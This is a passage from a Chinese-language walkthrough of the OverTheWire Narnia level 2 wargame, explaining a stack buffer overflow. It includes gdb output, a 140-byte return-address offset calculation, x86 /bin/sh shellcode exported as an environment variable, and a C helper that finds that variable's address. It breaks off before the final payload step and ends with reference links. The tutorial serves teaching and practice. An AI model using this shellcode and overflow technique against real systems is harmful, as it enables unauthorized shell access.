现在，看一下关于帧的信息，我们会得到**0xffffd69c**的返回地址:

```
(gdb) i f
Stack level 0, frame at 0xffffd6a0:
 eip = 0x8048485 in main; saved eip 0xf7e404b3
 Arglist at 0xffffd698, args:
 Locals at 0xffffd698, Previous frame's sp is 0xffffd6a0
 Saved registers:
  ebp at 0xffffd698, eip at 0xffffd69c
```

为了求出框架的大小，我们减去这些值:

```
(gdb) p 0xffffd69c-0xffffd610
$1 = 140
```

我们知道需要140个字节才能到达返回地址，在这里我们要添加指针.



### Step 3: 找到EGG ShellCode地址

我们要把返回地址指向哪里?我们已经知道了生成一个shell的方法: 使用一个环境变量:

```sh
narnia2@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'
```

查找**EGG**地址我们使用以下**C**地址:
```c
narnia2@melinda:/tmp$ cat getbashadd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char *argv[]){
        char *ptr;
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0])-strlen(argv[2]))*2;
        printf("%s is at %p\n", argv[1],ptr);
        return 0;
}
```

运行后给出:

```
narnia2@melinda:/tmp$ ./getshadd EGG /narnia/narnia2
EGG will be at 0xffffd945
```

### Step 4:运行开发!

现在我们要做的就是用140字节来运行二进制文件加上我们想要指向的地址的地址:


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP